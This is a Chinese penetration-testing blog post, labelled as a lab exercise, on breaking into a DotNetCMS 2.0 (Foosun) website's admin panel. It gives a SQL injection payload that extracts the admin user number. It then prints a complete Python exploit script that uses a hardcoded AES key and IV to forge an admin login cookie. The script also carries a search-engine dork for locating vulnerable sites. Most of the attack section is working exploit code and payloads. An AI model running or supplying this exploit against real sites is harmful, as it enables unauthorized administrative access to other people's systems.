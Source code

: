 ```yaml
---
ylayout:     post
title:      内网漫游【一】
subtitle:   web-内网渗透
date:       2019-06-09
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - 渗透测试
    - 内网渗透
    - 内网漫游
    - web渗透
---
```


# 内网漫游【一】

> ## 【实验环境】仅供学习参考

## 【web渗透】

#### web信息收集：

* 登陆目标网站收集信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/1559712039(1).png)

* 前台页面没发现什么高危漏洞，并且用[御剑]扫描也并没有得到有价值的信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190605132355.png)

* 不过在前端源码中发现cms版本信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190605132454.png)

* 目标网站所用的DotNetCMS 2.0曾经爆发过一个登陆绕过漏洞，可以轻松找到

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190605132716.png)

#### 漏洞利用：

* 得知该cms存在一个注入漏洞，可以得出usernum，尝试利用
* 注入payload为`http://www.test.com/user/City_ajax.aspx?CityId=1' union all select UserNum,UserNum from dbo.fs_sys_User where UserName='admin`

* 输入该payload得到`admin`用户的UserNum

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/1559712762(1).png)

* 该网站后台利用UserNum，UserName，SiteID，adminLogined，uncert加密得到cookie然后验证进入后台

* 我们可以利用得到的usernum利用它本来的加密算法进行加密

**【EXP代码如下】：** 

```js
#coding:utf-8
import argparse
import urllib
import traceback
import base64
from Crypto.Cipher import AES
from binascii import b2a_hex, a2b_hex
###############################
##search keyword：           ##
##inurl:/manage/Login.aspx   ##
###############################
KEY = 'Guz(%&hj7x89H$yuBI0456FtmaT5&fvHUFCy76*h%(HilJ$lhj!y6&(*jkP87jH7'
IV = 'E4ghj*Ghg7!rNIfb&95GUY86GfghUb#er57HBh(u%g6HJ($jhWk7&!hg4ui%$hjk'
def parse_args():
  parser = argparse.ArgumentParser()
  parser.add_argument("-u", "--url", help="the url", required=True, nargs="+")
  return parser.parse_args()
def run(url):
  try:
      usernumber = get_usernumber(url)
      if usernumber is not None:
          encrypt_cookie = generate_cookie(usernumber)
          #写入cookie中
          write_cookie(url, encrypt_cookie)
  except Exception:
      traceback.print_exc()
def get_usernumber(url):
  fullurl = url + "/user/City_ajax.aspx?CityId=1' union all select UserNum,UserNum from dbo.fs_sys_User where UserName='admin"
  content = urllib.urlopen(fullurl).read()
  index = content.index("<option value=\"")
  if  index != -1:
      usernumber = content[index+15:]
      usernumber = usernumber[0: content.index("\"")+1]
      print "Get usernumber success. Usernumber is :", usernumber
      return usernumber
  else:
      print "Get usernumber fail"
      return None
def pkcs7padding(data):
  bs = AES.block_size
  padding = bs - len(data) % bs
  padding_text = chr(padding) * padding
  return data + padding_text
def generate_cookie(usernumber):
  orgstr = "%s,admin,0,1,False"%(usernumber,)
  cryptor = AES.new(KEY[0:32], AES.MODE_CBC, IV[0:16])
  ciphertext = cryptor.encrypt(pkcs7padding(orgstr))
  ciphertext = base64.b64encode(ciphertext)
  return ciphertext
def write_cookie(url, ciphercookie):
  print "Generate Cookie[SITEINFO]:", ciphercookie
  print "Now you can write cookie and access the url: %s/manage/index.aspx"%(url,)
if __name__ == '__main__':
  args = parse_args()
  try:
      if args.url is not None:
          run(args.url[0])
  except Exception, e:
      print "python Foosun_exp.py -u [url]"
```

* 利用上述exp代码注入得到usernum和加密后的cookie

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609141441.png)

* 使用edit this cookie或者其他cookie编辑插件，输入刚刚加密所得的cookie进入后台

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609141531.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609141631.png)

> ### 成功进入后台 ：）